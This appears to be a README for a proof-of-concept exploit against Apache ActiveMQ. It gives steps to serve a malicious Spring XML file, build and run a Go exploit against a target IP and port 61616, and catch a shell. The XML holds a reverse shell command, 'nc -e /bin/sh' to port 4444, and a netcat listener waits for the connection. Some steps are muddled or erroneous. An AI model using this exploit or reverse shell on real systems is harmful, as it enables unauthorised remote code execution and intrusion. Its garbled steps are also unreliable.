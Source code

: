 # POC

**Ready to environment:**

1. Download Active MQ 18.0.0 Release fromhere:
https://activemq.apache.org/activemq-5018000-release

2.Install the Active MQ based on instructions, you can use it:
https://www.techbeginner.in/2019/12/how-to-install-apache-activemq-on-ubuntu-16-04.html

3. Tested on Kali (Debian) current distribution.

**Build POC:**

 1. $ python3 -m http.server 8001 (where the .xml poc file)
 2. $ sudo go build main.go (build & run go file)
 3. $ sudo run main.go
 4. $ systemctl status activemq  (Check the Activemq service is up)
 5. Check the values tags on xml file as:

                <value>sh</value>
                <value>-c</value>
                <value>nc -e /bin/sh <target_ip> 4444</value>
6. Check the values the default values. You don't need to review it:
	flag.StringVar(&ip, "i", "", "ActiveMQ Server IP or Host")
	flag.StringVar(&port, "p", "61616", "ActiveMQ Server Port")
	flag.StringVar(&url, "u", "", "Spring XML Url")
	flag.Parse()

**Run POC:**

7. $ ./main -i <target_ip> -u http://127.0.0.1:8001/poc-linux.xml
8.  $ nc -lvnp 4444 (listening for reverse shell)
